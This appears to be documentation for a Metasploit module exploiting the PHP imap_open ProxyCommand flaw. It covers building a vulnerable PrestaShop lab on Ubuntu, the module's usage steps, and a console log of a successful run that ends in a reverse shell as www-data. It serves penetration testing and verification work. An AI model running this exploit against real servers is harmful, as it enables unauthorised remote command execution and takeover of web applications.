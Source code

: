 ## Vulnerable Application

  The [imap_open](http://php.net/manual/en/function.imap-open.php) function within php,
  if called without the `/norsh` flag, will attempt to preauthenticate an IMAP session.
  On Debian based systems, including Ubuntu, `rsh` is mapped to the ssh binary. Ssh's 
  `ProxyCommand` option can be passed from `imap_open` to execute arbitrary commands.
  While many custom applications may use `imap_open`, it is reported that the following
  applications are vulnerable: 

* instantcms
* HostCMS
* e107_2
* prestashop
* SuiteCRM
* SugarCRM

  Prestashop exploitation requires the admin URI, and administrator credentials.

### Prestashop on Ubuntu 16.04

Mostly derived from [websiteforstudents.com](https://websiteforstudents.com/install-prestashop-on-ubuntu-17-04-17-10-with-apache2-mariadb-and-php/),
with a few tweeks for Ubuntu 16.04, and to install PHP's imap mod.

```
sudo apt install apache2
sudo sed -i "s/Options Indexes FollowSymLinks/Options FollowSymLinks/" /etc/apache2/apache2.conf
sudo systemctl stop apache2.service
sudo systemctl start apache2.service
sudo systemctl enable apache2.service
sudo apt-get install mariadb-server mariadb-client
sudo systemctl stop mysql.service
sudo systemctl start mysql.service
sudo systemctl enable mysql.service
sudo mysql_secure_installation
sudo systemctl restart mysql.service
sudo apt install php libapache2-mod-php php-common php-mbstring php-xmlrpc php-soap php-gd php-xml php-intl php-mysql php-cli php-mcrypt php-ldap php-zip php-curl php-imap
sudo phpenmod imap
sudo mysql -u root -p
```

```
CREATE USER 'prestashopuser'@'localhost' IDENTIFIED BY 'new_password_here';
GRANT ALL ON prestashop.* TO 'prestashopuser'@'localhost' IDENTIFIED BY 'user_password_here' WITH GRANT OPTION;
FLUSH PRIVILEGES;
EXIT;
```

```
cd /tmp && curl -O https://download.prestashop.com/download/releases/prestashop_1.7.2.4.zip
unzip prestashop_1.7.2.4.zip
sudo mkdir -p /var/www/html/prestashop
sudo unzip prestashop.zip -d /var/www/html/prestashop/
sudo chown -R www-data:www-data /var/www/html/prestashop/
sudo chmod -R 755 /var/www/html/prestashop/
sudo nano /etc/apache2/sites-available/prestashop.conf
```

Utilize the following configuration:

```
&lt;VirtualHost *:80>
     ServerAdmin admin@example.com
     DocumentRoot /var/www/html/prestashop/
     ServerName example.com
     ServerAlias www.example.com
     
     <Directory /var/www/html/prestashop/>
        Options +FollowSymlinks
        AllowOverride All
        Require all granted
     </Directory>
     
     ErrorLog ${APACHE_LOG_DIR}/error.log
     CustomLog ${APACHE_LOG_DIR}/access.log combined
     
&lt;/VirtualHost>
```

```
sudo a2ensite prestashop.conf
sudo a2enmod rewrite
sudo a2dissite 000-default
sudo systemctl restart apache2.service
```

Browse to the website, and install with default information.

```
sudo rm -rf /var/www/html/prestashop/install/
```

Now browse to `/admin`, and the first time you'll be redirected to the admin URI.  If not, `sudo ls /var/www/html/prestashop/admin*`.

## Verification Steps

  1. Install a vulnerable application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/php_imap_open_rce```
  4. Do: ```set TARGETURI [URI]```
  5. Do: ```set USERNAME [username]```
  6. Do: ```set PASSWORD [password]```
  7. Do: ```set target [target]```
  8. Do: ```run```
  9. You should get a shell.

## Options

  **TARGETURI**

  The URI for the target.  This may change by target.  Default is ` `.
  Prestashop should be the admin URI, similar to `/admin2769gx8k3`.

## Scenarios

### PrestaShop 1.7.2.4 on Ubuntu 16.04.4 with PHP 7.0

  ```
  resource (presta.rb)> use exploit/linux/http/php_imap_open_rce
  resource (presta.rb)> set TARGETURI /admin2769gx8k3
  TARGETURI => /admin2769gx8k3
  resource (presta.rb)> set USERNAME ubuntu@none.com
  USERNAME => ubuntu@none.com
  resource (presta.rb)> set PASSWORD ubuntuubuntu
  PASSWORD => ubuntuubuntu
  resource (presta.rb)> set rhosts 192.168.2.139
  rhosts => 192.168.2.139
  resource (presta.rb)> set verbose true
  verbose => true
  resource (presta.rb)> exploit
  [*] Started reverse TCP double handler on 192.168.2.117:4444 
  [*] Redirected to http://192.168.2.139/admin2769gx8k3/
  [*] Redirected to http://192.168.2.139/admin2769gx8k3/index.php?controller=AdminLogin&token=6dab1f7b4eea17d2b44a8929ead9df68
  [*] Token: 6dab1f7b4eea17d2b44a8929ead9df68 and Login Redirect: http://192.168.2.139/admin2769gx8k3/&token=09283f9efc45fc75eca3b8d5f1b1f92f
  [*] Logging in with ubuntu@none.com:ubuntuubuntu
  [*] Login JSON Response: {"hasErrors":false,"redirect":"http:\/\/192.168.2.139\/admin2769gx8k3\/index.php?controller=AdminDashboard&token=e324e8b387afb1874947db9b1ba411c8"}
  [+] Login Success, loading admin dashboard to pull tokens
  [*] Customer Threads Token: ec653c8bfc09754fc63aaa94101911dc
  [+] Sending Payload with Final Token: ec653c8bfc09754fc63aaa94101911dc
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo ivxULEW4eweTiis7;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket A
  [*] A: "ivxULEW4eweTiis7\r\n"
  [*] Matching...
  [*] B is input...
  [*] Command shell session 1 opened (192.168.2.117:4444 -> 192.168.2.139:41746) at 2018-11-18 21:08:50 -0500
  
  uname -a
  Linux ubuntu1604 4.4.0-138-generic #164-Ubuntu SMP Tue Oct 2 17:16:02 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  whoami
  www-data
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
